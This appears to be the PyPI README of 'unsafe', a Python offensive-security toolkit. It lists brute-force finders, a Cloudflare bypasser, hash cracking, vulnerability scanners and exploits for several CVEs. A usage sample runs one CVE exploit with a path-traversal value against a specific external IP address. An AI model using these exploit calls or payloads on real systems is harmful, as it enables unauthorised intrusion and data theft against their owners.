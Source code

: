 ![PyPI](https://img.shields.io/pypi/v/unsafe?style=for-the-badge)
![Daily Downloads](https://img.shields.io/pypi/dd/unsafe?style=for-the-badge)
![Weekly Downloads](https://img.shields.io/pypi/dw/unsafe?style=for-the-badge)
![Monthly Downloads](https://img.shields.io/pypi/dm/unsafe?style=for-the-badge)



# Unsafe (Advanced Penetration Testing Module)

Aiming to become the best package available for hacking and security in Python.

- Author : Ahur4
  - [Telegram Channel](https://t.me/Ahura_Rahmani)
  - [Telegram Pv](https://t.me/Ahur4)

# Features

- [x] **BruteForce**
  - [x] Admin Finder
  - [x] FileManager Finder
  - [x] Cloudflare Bypasser
  - [x] Wordpress Plugin Finder
- [x] **Cryptography**
  - [x] Decrypt
  - [x] Encrypt
  - [x] Hash
  - [x] Crack Hash
- [x] **Exploits**
  - [x] [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013)
  - [x] [CVE-2024-7313](https://nvd.nist.gov/vuln/detail/CVE-2024-7313)
  - [x] [CVE-2024-7339](https://nvd.nist.gov/vuln/detail/CVE-2024-7339)
  - [x] [CVE-2024-7928](https://nvd.nist.gov/vuln/detail/CVE-2024-7928)
  - [x] Add more in future.
- [x] Forensic
  - [x] Image Metadata
  - [x] PDF Metadata
  - [x] Audio Metadata
- [x] Network
  - [x] MacAddress Lookup
  - [x] Proxy Tester
  - [x] Port Scanner
  - [x] Proxy Extractor
- [x] Web
  - [x] Search Engine ( For GoogleDorking )
  - [x] Crawler
  - [x] Xss Scanner
  - [x] SQL Injection Scanner

## Usage
Exploit Sample
```python
from unsafe import exploits

penetration_tester = exploits.CVE_2024_7928(
    url="http://47.105.229.158:9001",
    path="/index/ajax/lang",
    key="lang",
    value="../../application/database",
)
result = penetration_tester.check_vuln()
if result is not None:
    print("Target is vulnerable !")
    print("\n".join([f"{k} : {v}" for k, v in result.items()]))
else:
    print("Target is not vulnerable !")
```

Mac Address lookup/Port scanner
```python
from unsafe import network

# macaddress lookup
mac_address = "00:00:5e:00:53:af"
lookup = network.mac_address_lookup(mac=mac_address)
print(lookup)

# port scanning
ports = [80, 443, 21, 27017, 9002]
ip = "127.0.0.1"
open_ports = network.port_scanner(host=ip, ports=ports)
print(open_ports)
```
### [More Examples on Github](https://github.com/ahur4/unsafe/tree/main/example)
# New Features : Coming Soon...